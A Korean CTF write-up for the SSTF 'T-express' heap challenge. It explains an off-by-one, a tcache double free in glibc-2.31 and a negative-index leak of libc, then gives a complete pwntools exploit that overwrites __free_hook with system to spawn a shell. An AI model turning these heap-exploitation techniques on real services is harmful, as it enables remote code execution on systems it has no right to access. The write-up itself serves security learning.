








# [Write-Up] SSTF T-express

# 머릿말

---



삼성에서 주최한 SSTF에 출전했습니다. 조금 늦은 감이 있지만 T-express 문제 풀이를 해볼까 합니다. T-express 바이너리를 실행하면 에버랜드 로고의 아스키아트로 저희를 맞이해줍니다. 코로나 때문에 어디 놀러가지도 못하고 있었는데 온라인으로 에버랜드에 가보네요. ㅎㅎ 


T-express 바이너리는 glibc-2.31와 함께 주어진 Heap문제입니다. glibc-2.31는 2020년 2월에 릴리즈된 버전인데,  저는 T-express를 풀면서 이 버전의 tcache를 처음 접해봤습니다. 이런 저조차 어렵지 않게 풀만큼 크게 어렵지 않고 재밌게 풀 수 있는 문제입니다.

[ 취약점 ]

1. Off-By-One
2. Double-Free
3. Out-Of-Bound

# 훑어보기

---



프로그램의 기능은 대충 아래와 같이 요약 할 수 있습니다.

1. 티켓 구매
    - One Ride 티켓 → 메모리 할당
    - One Day 티켓 → 메모리 할당
2. 보유중인 티켓 보기
3. 티켓 사용
    - One Ride 티켓 → 할당 해제
    - One Day 티켓 → 활동 선택 → 모든 활동 사용 → 할당 해제
4. 종료

# Off-By-One

---



구매 할 수 있는 티켓의 종류는 두가지로 나뉩니다( One Ride Ticket / One Day Ticket ). 두 티켓은 3가지 차이점이 있습니다.

1. 할당 크기
    - One Ride → 0x18
    - One Day → 0x30
2. 티켓 타입
    - One Ride → 1
    - One Day → 0
3. 해제 조건


`0x55d222efe2a0` 에는 One Ride Ticket이, `0x55d222efe2c0` 에는 One Day Ticket이 할당되있는 모습입니다. 하이라이트된 부분을 보시면 `ticket_type`값이 저장된 것을 볼 수 있습니다.  여기서 집중해야 할 점은 `lastname` 바로 다음에 `ticket_type`이 존재한다는 것입니다.



`lastname`은 티켓이 할당 된 후 함수 `read_str()`으로 입력을 받습니다.



함수 `read_str()`은 입력받은 string 끝에 NULL을 추가하는 루틴이 존재합니다. 만약 `lastname`에 입력 받을때 8byte를 꽉 체워 넣는다면 `ticket_type`의 값을 오염시킬 수 있겠죠?


One Ride Ticket의 `ticket_type`을 NULL( 0x00 )로 오염 시킨 모습입니다. 그래서 이걸로 무얼 할 수 있느냐? `ticket_type`을 오염시켜 0으로 바꾸면 One Ride Ticket을 One Day Ticket인 것처럼 속일 수 있습니다.



함수 `use_ticket()`의 일부입니다. `ticket_type`에 따라 분기문에서 실행된는 코드가 달라집니다. One Ride Ticket에는 존재하지 않는 `meal_ticket, safari_pass`등의 값을 조작하는 코드를 실행 할 수 있고 이는 추가로 메모리 오염을 발생시킵니다.

# Double Free

---

glibc-2.31 버전의 tcache는 double free를 검증하는 코드가 추가 됬습니다. 여기서 재밌는 점은 크기가 같은 tcache 끼리만 검증 한다는 겁니다. 만약 청크의 size를 임의로 조작 할 수 있는 방법이 있다면 같은 청크를 두번 해제 할 수 있습니다.


One Ride Ticket의 `ticket_type`을 `0x00`으로 바꿔 함수 `use_ticket()`에서 One Day Ticket인 것 처럼 사용 할 수 있다고 설명했습니다. 그중 `meal_ticket`을 사용하면 다음 청크의 size값을 오염시킬 수 있습니다.


위에서 설명한대로 size값을 오염시킨 모습입니다. One Day Ticket을 size가 0x41일때 한번, 0x21일때 한번 할당 해제를 해주면 Double Free가 되겠죠?


짠! 같은 주소가 두번 해제됩니다. 이제 원하는 주소에 chunk를 할당해 Arbitrary Write를 할 수 있습니다.

# Out-Of-Bound

---


구매한 티켓은 `passes`라는 이름의 배열로 bss영역에 저장됩니다. 각 티켓에 해당하는 chunk의 주소를 저장하고 index를 사용해 접근합니다. 위 사진은 함수 `view_ticket()`의 일부입니다. 자세히 보시면 index를 검사하는 분기문에서 음수에 대한 예외처리를 하지 않은 것을 확인 할 수 있습니다.


만약 `passes` 보다 낮은 주소에 중요한 정보가 있다면 Out-Of-Bound로 출력 시킬수 있습니다. 그리고 배열 `passes`보다 조금 낮은 주소를 확인해 보면 `stderr@@GLIBC`가 있다는 걸 알 수 있습니다. 



함수 `view_ticket()`에 -4를 index로 입력한다면 `stderr@@GLIBC`를 통해 libc의 base address를 leak 할 수 있습니다.

# Exploit

---

```python
from pwn import*

#p = remote('t-express.sstf.site', '1337')
p = process('./target')
e = ELF('./target')

#context.log_level='debug'
#gdb.attach(p)

# init
p.sendlineafter('choice: ', '1')
p.sendlineafter('(1/2): ', '1')
p.sendlineafter('First name: ', 'AAAA')
p.sendlineafter('Last name: ', 'AAAAAAAA')

p.sendlineafter('choice: ', '1')
p.sendlineafter('(1/2): ', '2')
p.sendlineafter('First name: ', 'BBBB')
p.sendlineafter('Last name: ', 'BBBB')

p.sendlineafter('choice: ', '1')
p.sendlineafter('(1/2): ', '1')
p.sendlineafter('First name: ', 'CCCC')
p.sendlineafter('Last name: ', 'CCCC')

p.sendlineafter('choice: ', '3')
p.sendlineafter('Index of ticket: ', '2')

# leak libc
p.sendlineafter('choice: ', '2')
p.sendlineafter('Index of ticket: ', '-4')

p.recvuntil('|name |    ')
pad = u64(p.recv(4)+ b'\x00\x00\x00\x00')
p.recvuntil('   ')
leak = u64(p.recv(6)+ b'\x00\x00')
libc_base = leak-0x1ec643
log.info(hex(libc_base))

free_hook = libc_base + 0x1eeb28
log.info(hex(free_hook))

system = libc_base + 0x55410
log.info(hex(system))

# double free
p.sendlineafter('choice: ', '3')
p.sendlineafter('Index of ticket: ', '1')
p.sendlineafter('(1/2/3/4):', '1')
p.sendlineafter('choice: ', '3')
p.sendlineafter('Index of ticket: ', '1')
p.sendlineafter('(1/2/3/4):', '1')
p.sendlineafter('choice: ', '3')
p.sendlineafter('Index of ticket: ', '1')
p.sendlineafter('(1/2/3/4):', '1')
p.sendlineafter('choice: ', '3')
p.sendlineafter('Index of ticket: ', '1')
p.sendlineafter('(1/2/3/4):', '2')
p.sendlineafter('choice: ', '3')
p.sendlineafter('Index of ticket: ', '1')
p.sendlineafter('(1/2/3/4):', '3')

for i in range(0x20):
	p.sendlineafter('choice: ', '3')
	p.sendlineafter('Index of ticket: ', '0')
	p.sendlineafter('(1/2/3/4):', '1')

p.sendlineafter('choice: ', '3')
p.sendlineafter('Index of ticket: ', '1')
p.sendlineafter('(1/2/3/4):', '1')
gdb.attach(p)

# AW
p.sendlineafter('choice: ', '1')
p.sendlineafter('(1/2): ', '2')
p.sendlineafter('First name: ', p64(free_hook))
p.sendlineafter('Last name: ', 'Fabu1ous')

p.sendlineafter('choice: ', '1')
p.sendlineafter('(1/2): ', '1')
p.sendlineafter('First name: ', b'/bin/sh\x00')
p.sendlineafter('Last name: ', 'Fabu1ous')

p.sendlineafter('choice: ', '1')
p.sendlineafter('(1/2): ', '1')
p.sendlineafter('First name: ', p64(system))
p.sendlineafter('Last name: ', 'Fabu1ous')

p.sendlineafter('choice: ', '3')
p.sendlineafter('Index of ticket: ', '1')

p.interactive()
```



Q.E.D